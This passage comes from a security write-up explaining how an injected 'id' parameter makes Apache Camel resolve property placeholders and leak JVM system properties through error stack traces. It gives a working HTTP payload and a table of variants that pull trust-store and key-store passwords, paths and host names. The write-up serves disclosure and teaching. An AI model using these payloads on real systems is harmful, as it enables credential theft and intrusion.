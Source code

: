 This can be a very good means of exploiting the issue above. If we provide an *id* parameter, which contains a placeholder, and force an error so that the stack trace is returned to us, we can observe the URI that Camel could not correctly hit (hence the stack trace), but with property placeholders resolved.

But what placeholders can we resolve? As I was looking into this, I identified that the default resolution mechanism for property placeholders is JVM System Properties. That means that we can try resolving System Properties from Camel's Java Context. The one I happen to know of, off the top of my head, is *java.version*, which I immediatelly tried out.

{% raw %}
```
GET /lookup-user.php?id=3816/../?var={{java.version}}&x= HTTP/1.1
Host: victim.com
Connection: close

```
{% endraw %}

Let us break this payload appart. The parameter we supplied is *3816/../?var=\{\{java.version}}&x=*

First, we supply a user id, *3816*, whether valid, or not.
Then, */../*, which fails to resolve on the backend and thus causes a 404 Not Found response which Camel treats as an **error**, yielding our precious stack trace.
Then we supply an anchor sign, *?*, so we can pass parameters to the URI that will be built and sent to Camel.
Then, follows a parameter with an arbitrary name *var* and value of a property placeholder which will be resolved by the value of *java.version* in the System Properties of Camel's JVM Context.
Finally, we supply another parameter with the arbitrary name *x* but **no value**, so that when the endpoint URI is formed, anything that is appended to our payload is parsed as the value of *x*. Neat, huh?

That's it, we constructed an exploit.

The URI that will be constructed by Application A and sent to Camel is the following:

*http://applicationb.intranet.com/api/user/lookup/**3816/../?var=\{\{java.version}}&x=**/fullname?bridgeEndpoints=true*

Camel performs the request, fails to get a 200 OK response from Application B and returns a stack trace containing the following:

HttpOperationFailedInvokingException: HTTP operation failed invoking http://applicationb.intranet.com/api/user/lookup/3816/../?var=**1.8.0_181**&x=/fullname?bridgeEndpoints=true

You see it? There it lies, in bold typeface, our precious info leak!



### Yuh, seems dull, 0/10 IGN
If we investigate a bit, we can has even MOAR power.

| Payload                                                   | Value                      |
| --------------------------------------------------------- | -------------------------- |
| 3816/../?var=\{\{java.version}}&x=                        | Java Version               |
| 3816/../?var=\{\{java.runtime.version}}&x=                | Java Runtime Version       |
| 3816/../?var=\{\{javax.net.ssl.trustStorePassword}}&x=    | Trust Store Password       |
| 3816/../?var=\{\{javax.net.ssl.keyStorePassword}}&x=      | Key Store Password         |
| 3816/../?var=\{\{java.home}}&x=                           | Java Home Path             |
| 3816/../?var=\{\{jboss.server.deploy.dir}}&x=             | JBoss Deployment Directory |
| 3816/../?var=\{\{jboss.node.name}}&x=                     | JBoss Node (Host) Name     |
| 3816/../?var=\{\{user.home}}&x=                           | User Home Directory        |
| 3816/../?var=\{\{user.country}}&x=                        | User Country               |